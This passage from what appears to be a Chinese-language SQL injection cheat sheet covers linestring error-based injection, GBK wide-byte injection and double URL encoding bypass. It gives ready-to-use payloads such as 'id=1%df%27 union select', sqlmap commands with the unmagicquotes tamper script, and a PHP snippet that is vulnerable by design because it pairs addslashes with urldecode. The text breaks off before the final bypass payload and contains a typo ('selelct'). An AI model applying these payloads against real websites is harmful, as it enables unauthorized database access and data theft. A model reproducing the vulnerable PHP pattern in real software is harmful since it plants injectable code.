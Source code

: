 #### 10. linestring报错注入

同GeometryCollection报错注入。

```
id=1' and linestring((select * from(select * from(select user())a)b)) -- -
```



## 0x07 编码注入

#### 1. 宽字节注入

GBK占用两字节，ASCII占用一字节，PHP中编码为GBK，函数执行添加的是ASCII编码，MYSQL默认字符集是GBK等宽字节字符集。

%DF\'：被PHP当中的addslashes函数转义为 %DF\\\'，\\ 即URL里的 %5C，也就是说，%DF\\\' 会被转成 %DF%5C%27 。倘若网站的字符集是GBK编码的，MySQL使用的编码也是GBK的话，就会被认为 %DF%5 是一个宽字符。编码之后是“運”。

```
id=1%df%27 union select 1,2,3 -- -
```

或者sqlmap对宽字节注入，直接注入需要将%df放在链接中：

```
sqlmap -u "http://xxx.com/xxx.php?id=1%df%27" --dbs
```

也可以使用sqlmap tamper脚本，其中unmagicquotes.py是专门用于宽字节注入的脚本：

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --tamper=unmagicquotes.py --dbs
```

最常使用的宽字节注入是利用%df，其实只要第一个ascii码大于128就可以了，比如ascii码为129的就可以，但是我们怎么将它转换为URL编码呢，其实很简单，我们先将129（十进制）转换为十六进制，为0x81，然后再十六进制前面加%即可，即为%81。GBK首字节对应0x81-0xFE，尾字节对应0x40-0xFE（除0x7F）。如下面这个例子用的是%bf

```
id=1%bf' union selelct 1,2,3 -- -
```

#### 2. 二次URL编码注入

如果后台在用户输入的数据入库之前做了一次URL解码，那就注入攻击时就需要二次URL编码，一次是给WebServer正常解码，另一次就是给后台URL解码用的。

php中如果使用了urldecode或rawurldecode函数来解码，那么就需要二次URL编码注入。后台代码示例如下：

```php
<?php
$a=addslashes($_GET['id']);
$b=urldecode($a);
echo '$a='.$a;
echo '<br />';
echo '$b='.$b;
//后面入库代码省略
?>
```

代码先对\'、\"、\\、Null等符号做了转义，然后URL解码。那么我们只需要注入下面代码即可绕过addslashes转义和urlencode编码：

